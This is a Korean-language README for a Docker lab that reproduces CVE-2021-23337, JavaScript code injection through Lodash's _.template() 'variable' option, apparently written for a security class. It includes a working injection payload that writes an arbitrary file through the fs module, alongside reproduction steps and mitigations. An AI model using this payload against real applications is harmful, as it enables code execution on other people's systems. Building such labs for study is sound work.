





# CVE-2021-23337

본 repo는 Lodash `_.template()`의 `variable` 옵션을 이용한 임의 JavaScript 코드 실행 취약점 재현 환경이다.

---

## 취약점 요약

CVE-2021-23337은 Lodash의 `_.template()` 함수에서 발생하는 코드 삽입 취약점이다.

취약한 버전에서는 `variable` 옵션에 전달된 값이 생성되는 JavaScript 함수의 매개변수 위치에 검증 없이 삽입된다.

공격자가 해당 값을 제어할 수 있는 경우 함수 구문을 탈출하여 애플리케이션 권한으로 임의의 JavaScript 코드를 실행할 수 있다.

- 영향 버전: Lodash 4.17.20 이하
- 패치 버전: Lodash 4.17.21 이상
- 영향: Arbitrary Code Execution

---

## 환경 구성

- Docker
- Docker Compose
- Node.js 18.20.4
- Lodash 4.17.20
- 실행 사용자: `node`
- 서비스 포트: `3000`

프로젝트 구조:

```text
CVE-2021-23337/
├── .dockerignore
├── .gitignore
├── Dockerfile
├── README.md
├── app.js
├── docker-compose.yml
├── lab.js
├── package-lock.json
├── package.json
├── poc.js
└── proof/
    └── .gitkeep
```

환경 실행:

```bash
docker compose up -d --build
```

컨테이너 상태 확인:

```bash
docker compose ps
```

실행 사용자 확인:

```bash
docker compose exec app whoami
```

예상 결과:

```text
node
```

---

## 취약 조건

다음 조건이 충족될 경우 취약점이 발생할 수 있다.

1. Lodash 4.17.20 이하 버전 사용
2. `_.template()` 함수 사용
3. `variable` 옵션 사용
4. 외부 입력값을 `variable` 옵션에 전달
5. 입력값 검증 미적용

취약한 코드:

```javascript
const compiled = _.template('Hello', {
  variable: userInput
});

compiled({});
```

이 환경에서 템플릿 본문은 `Hello`로 고정되어 있으며, 취약점이 발생하는 입력값은 `variable` 옵션이다.

---

## 재현 절차

### 1. Docker 환경 실행

```bash
docker compose up -d --build
```

(Ubuntu 22.04 desktop 등, docker compose 불가 시 -> docker-compose로 수행하면 된다)

### 2-1. CLI로 재현

컨테이너 내부로 접속한다.

```bash
docker compose exec app sh
```

CLI 프로그램을 실행한다.

```bash
node app.js
```



다음 메시지가 출력된다.

```text
Payload를 입력하세요.
Enter를 누르면 기본 payload를 사용합니다.
>
```

Enter를 누르면 기본 payload가 실행된다.



아래와 같은 방법으로 원하는 파일명과 파일 내용으로 파일을 생성할 수도 있다.

```javascript
){process.mainModule.require('fs').writeFileSync("/proof/filename.txt","file content\n")}; with(obj
```
  
<br> 

기본 PoC를 바로 실행하려면 다음 명령을 사용할 수도 있다.

```bash
node poc.js
```

### 2-2. 브라우저로 재현

브라우저에서 다음 주소에 접속한다.

```text
http://127.0.0.1:3000
```

`Variable Payload` 입력창에 PoC를 입력한 후 `PoC 실행` 버튼을 누른다.

---

## PoC 코드

기본 payload:

```javascript
){process.mainModule.require('fs').writeFileSync("/proof/CVE-2021-23337-proof.txt","WHS 04 class 8 shshuu CVE-2021-23337\n")}; with(obj
```

각 문자열의 의미

```text
/proof/CVE-2021-23337-proof.txt
```
= 생성할 파일의 전체 경로와 파일명

<br> 

```text
WHS 04 class 8 shshuu CVE-2021-23337
```
= 파일에 작성할 내용
  
<br> 

사용자는 파일명, 파일 내용을 직접 변경할 수 있다.

예시:

```javascript
){process.mainModule.require('fs').writeFileSync("/proof/filename.txt","file content\n")}; with(obj
```



---

## 실행 결과

기본 payload 실행 후 **컨테이너 내부**에서 파일을 확인한다.

```bash
ls -al /proof
```

```bash
cat /proof/CVE-2021-23337-proof.txt
```

기본 payload 외의 경우, 자신이 작성한 파일 이름으로 수정하여 수행하면 된다.
  
<br> 

예상 결과:

```text
WHS 04 class 8 shshuu CVE-2021-23337
```



기본 payload 외의 경우, 자신이 작성한 파일 내용이 출력된다.


  
<br> 

### 컨테이너 외부에서 확인하는 방법

Windows PowerShell에서는 다음과 같이 확인 가능하다.

```powershell
Get-ChildItem .\proof
```

```powershell
Get-Content .\proof\CVE-2021-23337-proof.txt
```

Linux Ubuntu 환경에서는 다음과 같이 확인 가능하다.

```bash
ls ./proof
```

```bash
cat ./proof/CVE-2021-23337-proof.txt
```
  
<br> 


참고 ) `docker-compose.yml`에서 다음 볼륨을 사용하므로 컨테이너와 호스트의 파일이 공유된다.

```yaml
volumes:
  - ./proof:/proof
```

```text
컨테이너: /proof/CVE-2021-23337-proof.txt
호스트:   ./proof/CVE-2021-23337-proof.txt
```

본 실습은 `root`가 아닌 `node` 일반 사용자 권한으로 실행된다.

따라서 파일 생성은 애플리케이션 프로세스 권한으로 임의의 JavaScript 코드가 실행되었음을 의미한다.

---

## 대응 방안

### Lodash 업데이트

Lodash를 4.17.21 이상 버전으로 업데이트 한다.

```bash
npm install lodash@4.17.21
```

### 외부 입력값 사용 금지

외부 입력값을 `_.template()`의 `variable` 옵션에 직접 전달하지 않는다.

```javascript
_.template(template, {
  variable: 'data'
});
```

### 입력값 검증

`variable` 값으로 JavaScript 식별자 형식만을 허용한다.

```javascript
const identifierPattern = /^[A-Za-z_$][A-Za-z0-9_$]*$/;

if (!identifierPattern.test(variable)) {
  throw new Error('Invalid variable name');
}
```

해당 취약점이 패치된 4.17.21 이상 버전으로 라이브러리를 업데이트 하는 것이 가장 안전한 방법이다.

---

## 환경 종료

```bash
docker compose down
```

---

## 참고 자료

- NVD  
  https://nvd.nist.gov/vuln/detail/CVE-2021-23337

- GitHub Advisory  
  https://github.com/advisories/GHSA-35jh-r3h4-6jhm

- Lodash Patch Commit  
  https://github.com/lodash/lodash/commit/3469357cff396a26c363f8c1b5a91dde28ba4b1c
